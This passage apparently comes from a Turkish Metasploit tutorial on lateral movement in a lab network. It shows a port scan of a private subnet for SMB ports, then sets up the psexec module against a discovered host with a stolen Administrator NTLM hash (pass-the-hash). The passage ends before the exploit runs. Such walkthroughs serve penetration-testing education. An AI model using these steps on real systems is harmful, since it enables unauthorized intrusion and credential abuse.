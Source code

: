 ```bash
   TIMEOUT      1000             yes       The socket connect timeout **in **milliseconds
   VERBOSE      false            no        Display verbose output

msf auxiliary**(**tcp**)** **&gt;** set RHOSTS 10.1.13.0/24
RHOST **=&gt;** 10.1.13.0/24
msf auxiliary**(**tcp**)** **&gt;** set PORTS 139,445
PORTS **=&gt;** 139,445
msf auxiliary**(**tcp**)** **&gt;** set THREADS 50
THREADS **=&gt;** 50
msf auxiliary**(**tcp**)** **&gt;** run

**[*********]** 10.1.13.3:139 - TCP OPEN
**[*********]** 10.1.13.3:445 - TCP OPEN
**[*********]** 10.1.13.2:445 - TCP OPEN
**[*********]** 10.1.13.2:139 - TCP OPEN
**[*********]** Scanned 256 of 256 hosts **(**100% complete**)**
**[*********]** Auxiliary module execution completed
msf auxiliary**(**tcp**)** **&gt;**
```



Yapılan tarama sonucunda `10.1.13.2` ve `10.1.13.3` olarak 2 IP adresi bulduk. Bunlardan `10.1.13.3` IP adresi zaten bizim 1. bilgisayara ait olduğundan `10.1.13.2` IP adresine odaklanacağız.



## Bağlantı Yapalım



445 numaralı portun `samba` ağ paylaşım işlemlerinden kullanıldığını biliyoruz. Öyleyse, `exploit/windows/smb/psexec` modülünü kullanabiliriz. Modül ayarlarını yaparken, ilk bilgisayardan elde ettiğimiz `Administrator:500:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d` hash değerlerini girdiğimize dikkat edin.


```bash
msf auxiliary**(**tcp**)** **&gt;** use exploit/windows/smb/psexec 
msf exploit**(**psexec**)** **&gt;** show options

Module options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOST                       yes       The target address
   RPORT      445              yes       Set the SMB service port
   SMBDomain  WORKGROUP        no        The Windows domain to use **for **authentication
   SMBPass                     no        The password **for **the specified username
   SMBUser                     no        The username to authenticate as


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit**(**psexec**)** **&gt;** set RHOST 10.1.13.2
RHOST **=&gt;** 10.1.13.2

msf exploit**(**psexec**)** **&gt;** set SMBUser Administrator
SMBUser **=&gt;** Administrator

msf exploit**(**psexec**)** **&gt;** set SMBPass 81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d
```